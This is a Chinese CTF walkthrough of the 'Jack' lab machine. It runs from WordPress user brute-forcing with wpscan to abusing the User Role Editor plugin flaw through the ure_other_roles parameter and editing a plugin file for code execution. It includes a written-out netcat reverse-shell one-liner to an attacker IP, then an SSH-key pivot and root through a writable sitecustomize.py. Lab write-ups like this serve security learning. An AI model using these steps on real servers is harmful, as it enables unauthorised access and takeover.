 # Jack

破坏运行Wordpress的Web服务器，获得低特权用户，并使用Python模块将您的权限升级到root。

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/39a95d0a61b2419d8fcfb0c958aab693.png)

## web枚举

![在这里插入图片描述](https://img-blog.csdnimg.cn/a532b9c4535a40afb68e9d0f372873f9.png)

robots.txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/3bea36c32220414b9916523218cd21f7.png)

wpscan枚举user

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e0e053ef8e848c1a787a9bf27f9c758.png)

wpscan直接爆

![在这里插入图片描述](https://img-blog.csdnimg.cn/2c5d3be347df42ccb340cb1d6f5308fd.png)

得到wendy的密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/359deab9cc964c7eb9b59e4640e36195.png)

直接登后台

![在这里插入图片描述](https://img-blog.csdnimg.cn/de85580f2b2f478f9e0f3b50f02a2b83.png)

根据题目提示，利用user role editor帮助我们在wp中提权到admin

根据exploitdb给出的desc

	v4.25 之前的 WordPress User Role Editor 插件缺少授权
	   检查其更新用户配置文件功能（“更新”功能，包含
	   在“class-user-other-roles.php”模块中）。
	   而不是验证当前用户是否有权编辑其他用户的
	   配置文件（“edit_users”WP 功能），易受攻击的函数验证是否
	   当前用户有权编辑指定的用户（“edit_user”WP 函数）
	   提供的用户 ID（“user_id”变量/HTTP POST 参数）。 由于提供
	   user id 是当前用户的 id，这个检查总是被绕过（即当前
	   始终允许用户修改其配置文件）。
	   此漏洞允许经过身份验证的用户添加任意用户角色编辑器
	   通过“ure_other_roles”参数在其配置文件中指定角色
	   对“profile.php”模块的 HTTP POST 请求（在“更新配置文件”被启用时发出）
	   点击）。
	   默认情况下，此模块授予指定的 WP 用户所有管理权限，
	   存在于用户角色编辑器插件的上下文中。

进到profile editor，然后update

![在这里插入图片描述](https://img-blog.csdnimg.cn/be89fc5f966842dcb427e62f6e227d25.png)

wp抓包添加ure_other_roles参数，放行

![在这里插入图片描述](https://img-blog.csdnimg.cn/a4c22cf31aa04b3491103634e7ccdb0b.png)

成功提权

![在这里插入图片描述](https://img-blog.csdnimg.cn/41c7afe252af412383d406bd5abac470.png)

直接往页面写一句话行不通

![在这里插入图片描述](https://img-blog.csdnimg.cn/fb938af51913405991d51cefa5ff0bc4.png)

利用插件编辑器，随便编辑个插件

![在这里插入图片描述](https://img-blog.csdnimg.cn/d148654c08974bde8887a17b33705f1d.png)

访问编辑的php文件：

	http://jack.thm/wp-content/plugins/akismet/index.php

![在这里插入图片描述](https://img-blog.csdnimg.cn/ad9d868a9b334ac5b62d3a9e56b50886.png)

reverse shell payload

	mkfifo /tmp/f1;nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1

![在这里插入图片描述](https://img-blog.csdnimg.cn/9087a9d5bc7b4cafb97782211911eda4.png)

user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/6b7d76a9f4da4382b28e2fc2d0c7c786.png)

## 横向移动

![在这里插入图片描述](https://img-blog.csdnimg.cn/a4d3696da35e4eda80fc893be5c7baa5.png)

备份文件，那么应该查看/var/backups

![在这里插入图片描述](https://img-blog.csdnimg.cn/98597c4716464afc8af91283e228b417.png)

有一个ssh私钥，估计是jack的

下到攻击机尝试利用，没密码，成功进来

![在这里插入图片描述](https://img-blog.csdnimg.cn/036d24d9cb934713b9f4ff6e090f2724.png)

## 权限提升

查找用户可写的文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/7565264c2aef45549dea6a855ad19968.png)

sitecustomize.py是一个会在python运行的时候自动执行，我们查看了定时任务，并没有

那么有可能在进程列表中给出答案，传个pspy过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/6f40602f590d495ba0df21ca9c47f429.png)

定时执行python，这刚好满足了条件，编辑sitecustomize.py

![在这里插入图片描述](https://img-blog.csdnimg.cn/4416845de3dc41a7bc7a16efc024ccb4.png)

静等一会

![在这里插入图片描述](https://img-blog.csdnimg.cn/3f895497183442cc9ea10d11e7a8d19c.png)

利用

![在这里插入图片描述](https://img-blog.csdnimg.cn/9bea8d19e72f4ae5a9b96281581a7946.png)

getroot